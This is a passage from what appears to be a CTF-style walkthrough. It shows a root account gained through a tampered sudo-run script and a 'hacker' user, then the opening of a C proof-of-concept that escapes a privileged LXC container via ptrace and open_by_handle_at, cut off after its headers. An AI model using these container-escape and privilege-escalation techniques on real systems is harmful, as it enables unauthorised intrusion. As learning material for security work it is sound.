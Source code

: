 Once that's done, save the script, and then run it.

```console
rross@lxc1:~$ sudo /opt/scripts/clear_nginx_logs.sh 
sudo: unable to resolve host lxc1
/opt/scripts/clear_nginx_logs.sh: line 4: /var/log/nginx/access.log: No such file or directory
/opt/scripts/clear_nginx_logs.sh: line 5: /var/log/nginx/error.log: No such file or directory
```

After running the script, let's make sure that we have root access.

```console
rross@lxc1:~$ su hacker
Password: 
root@lxc1:/home/rross# id
uid=0(root) gid=0(root) groups=0(root)
```

## Utilizing a Privileged LXC Escape:

Okay, so we have root access! The only problem is that we are still in the LXC container - so we don't have direct access to the Cloud machine.

What we need to do next, is somehow find a way to be able to break out of this container and access the Cloud machine directly.

There is actually a really good Whitepaper written by Jesse Hertz of the NCC Group about [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.trust/globalassets/our-research/us/whitepapers/2016/june/container_whitepaperpdf/) - which I highly suggest you read!

After reading through the whitepaper, we are presented with a [PoC](https://www.techopedia.com/definition/4066/proof-of-concept-poc) exploit for breaking out of LXC Containers.

I took the liberty to clean up the exploit a little bit for readability and to fix some indentation issues.

```c
/*
* @author Tim Newsham
* use ptrace to bypass seccomp rule against open_handle_at
* and use open_handle_at to get a handle on the REAL root dir
* and then chroot to it. This escapes privileged lxc container.
* gcc -g -Wall secopenchroot.c -o secopenchroot
* ./secopenchroot /tmp "02 00 00 00 00 00 00 00"
*
* assuming that the real root has file handle "02 00 00 00 00 00 00 00"
*/

#include <stdio.h>
#include <stdlib.h>
#include <syscall.h>
#include <errno.h>
#include <sys/signal.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <linux/kexec.h>
#include <sys/user.h>
#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#define _GNU_SOURCE
#define __USE_GNU
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

int getDat(char *p, unsigned char *buf)
{
```